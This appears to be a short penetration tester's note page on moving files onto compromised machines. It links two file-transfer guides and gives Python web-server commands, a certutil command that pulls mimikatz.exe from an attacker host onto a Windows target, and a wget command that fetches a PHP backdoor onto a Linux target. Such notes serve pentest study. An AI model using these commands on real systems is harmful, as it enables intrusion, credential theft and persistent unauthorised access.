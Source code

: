 # (Almost) All The Ways to File Transfer
https://juggernaut-sec.com/linux-file-transfers-for-hackers/
https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65
# Metasploit
![[Metasploit#Payload deploy]]

# Python Web Server

```python
python -m SimpleHTTPServer 80 # python 2.x
python -m http.server 80 # python 3.x
```

# Python SMB Server
![[impacket#smbserver]]


# Transfering files to Windows Targets

```PS
certutil -urlcache -f http://10.10.5.2/mimikatz.exe mimikatz.exe
```
# Transfering files to Linux Targets
```bash
wget http://192.196.45.2/php-backdoor.php
curl ...
```
